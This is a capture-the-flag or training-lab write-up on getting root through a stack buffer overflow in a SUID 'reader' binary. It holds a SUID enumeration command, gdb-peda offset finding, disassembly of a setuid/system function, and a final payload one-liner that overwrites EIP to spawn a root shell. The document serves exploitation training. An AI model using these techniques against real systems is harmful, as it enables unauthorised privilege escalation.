






## Task 1: Connect to the compromised machine and identify interesting binaries

Using bash or any other scripting language, you might want to examine the file system in order to quickly locate interesting binaries. Be reminded that vulnerable SUID binaries can result in privilege escalation.

## Task 2: Examine the interesting binary

Examine the interesting binary. Try to experiment with the data it processes. Can you overflow the buffer?

## Task 3: Find the proper offset to achieve a precise EIP overwrite

Find the proper payload length to achieve a precise EIP overwrite. Gdb-peda's **pattern create** and **pattern offset** commands can help you with that.

## Task 4: Find a reusable function

Inspect the binary using the debugger to find a function that might help you achieve a root shell. Gdb-peda's **info functions** would be a good start.

## Task 5: Spawn a root shell

Reuse the identified function that can provide you with a system shell. This time, try to keep the stdin stream open in order to execute some commands as root.

-------------------------------------------
# Lab part
To find interesting binary, use below command:

```bash
find / -perm -u=s -type f 2>/dev/null
```

```bash
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/xorg/Xorg.wrap
/usr/lib/i386-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/reader <== seem good
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/sbin/pppd
/bin/mount
/bin/umount
/bin/fusermount
/bin/su
/bin/ping
/bin/ping6
/home/xdev/Desktop/reader <== seem good
```

Let's checkout the directory to see what happend:
```bash
ls -la /home/xdev/Desktop/
total 20
drwxr-xr-x  2 xdev xdev 4096 Aug 16  2019 .
drwxr-xr-x 18 xdev xdev 4096 Aug 16  2019 ..
-rwsr-xr-x  1 root root 7580 Aug 15  2019 reader
-r--------  1 root root  419 Aug 15  2019 reader.c
```
we got `reader.c` with no permission, and reader can run on user mode. Now on, We gonna try to overflow the reader to get size and overflow `EIP`:
```bash
$python -c "print('A'*1100)" | ./reader
Provide root password:
 Sorry, this is not correct.
Segmentation fault (core dumped)
```
Open gdb-peda and create pattern size 1100 to `1.txt`




We know the offset is `0x41426e41` which is the return address of `EIP`. User pattern offset feature of peda to get the exact size.

```powershell
gdb-peda$ pattern offset 0x41426e41
1094872641 found at offset: 1012
```



In here, the code successfully override the `EIP` with `0x42424242` which mean `BBBB`. Now, try to find the address which can use to exploit. Run `info functions` to get function's information



We can see in red zone have 4 functions, `0x080484cb strcpy` looks interesting, disassembly it and see what do we got 

```powershell
gdb-peda$ disas 0x080484cb
Dump of assembler code for function srtcpy:
   0x080484cb <+0>:     push   ebp
   0x080484cc <+1>:     mov    ebp,esp
   0x080484ce <+3>:     sub    esp,0x8
   0x080484d1 <+6>:     sub    esp,0xc
   0x080484d4 <+9>:     push   0x0
   0x080484d6 <+11>:    call   0x80483b0 <setuid@plt>
   0x080484db <+16>:    add    esp,0x10
   0x080484de <+19>:    sub    esp,0xc
   0x080484e1 <+22>:    push   0x8048600
   0x080484e6 <+27>:    call   0x8048390 <system@plt>
   0x080484eb <+32>:    add    esp,0x10
   0x080484ee <+35>:    mov    eax,0x0
   0x080484f3 <+40>:    leave
   0x080484f4 <+41>:    ret
End of assembler dump.
```

In here, we can see there is an instruction pushing `0x8048600`  into stack, determine what it is.

```powershell
gdb-peda$ x/s 0x8048600
0x8048600:      "/bin", '/' <repeats 37 times>, "sh -p"
```

As you can see, in this have call the sh process, we might use this function strcpy `0x080484cb` to make the poc.
```bash
python -c "print('A'*1012+'\xcb\x84\x04\x08')" > 1.txt
```

We can see in gdb debugger, there are 2 process created after call the that address. Which mean we return address successfully.



- PoC

```bash
(python -c "print('A'*1012+'\xcb\x84\x04\x08'*4)" ; cat) | reader
```


